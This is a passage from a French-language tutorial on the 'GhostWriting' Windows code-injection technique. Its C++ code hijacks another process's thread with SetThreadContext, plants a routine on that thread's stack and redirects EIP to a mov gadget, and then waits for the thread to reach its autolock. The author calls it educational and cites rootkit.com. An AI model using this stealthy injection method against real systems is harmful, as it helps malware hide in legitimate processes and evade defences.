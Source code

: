 ```c++
    LPDWORD SrcReg = PtrToRegContext[Regs/16];      //Adresse du DWORD dans Context du registre source (Gv).
    LPDWORD DstReg = PtrToRegContext[Regs%16];      //Adresse du DWORD dans Context du registre de destination(Ev)
 
    DWORD hAddrBase = Context.Esp - 8 - sizeof(sc);
 
    /********************************  <= hAddrBase
    /*     Adresse de notre jmp     */
    /********************************/
    /*     Notre                    */
    /*              Routine         */
    /********************************/
    /*             VIDE             */
    /********************************  <= Esp à l'origine
    /*     Pile du thread cible     */
    /*                              */
 
    (DWORD)*(DWORD *)&sc[6] = hAddrBase + 4;      //On remplit notre routine avec l'adresse de la chaine "oO"
 
    *SrcReg = AutoLock;
    *DstReg = hAddrBase - OffsetMov;
 
    // mov [hAddrBase - OffsetMov + OffsetMov], AutLock
 
    Context.Esp = hAddrBase - OffsetEsp;      //Avant le RET, ESP pointe sur hAddrBase et dans hAddrBase on trouve l'adresse de notre JMP $
    Context.Eip = GoodMov;                    //Re-direction du thread sur notre MOV
 
    if(!SetThreadContext(hThread,&Context))goto exit;      //C'est parti ....
```
Il faut vérifier si notre thread est bloqué à notre autolock, rien de plus simple :
```c++
void WaitEip(HANDLE hThread, DWORD Eip)
{
    CONTEXT Context;
    Context.ContextFlags = CONTEXT_CONTROL;
    do
    {
        if(!GetThreadContext(hThread, &Context)) return;
    }
    while(Context.Eip != Eip);
}
```
Je pense que vous avez maintenant compris le principe de cette technique. J’ai enlever le passage sur la protection DEP afin de raccourcir le code.  

[GhostWriting.cpp](GhostWriting.cpp)  

Mon code est à but pédagogique et non pour faire mieux que le POC **c0de90e7**.  
Attention il est possible de tomber sur un thread des gestions des messages Windows, en quel cas il faudra faire un PostMessage mais je vous laisse le plaisir de regarder l’article sur RootKit.com pour ca.  

__*Greetz:*__  
mxatone, ivanlef0u, n0cte.  
Et à m0m0, Nyxem pour avoir corrigé mon français.  

__*References*:__  
http://rootkit.com/newsread.php?newsid=689  
http://www.sandpile.org/ia32/opc_rm32.htm  
Intel _Volume2x_Instruction Set Reference.pdf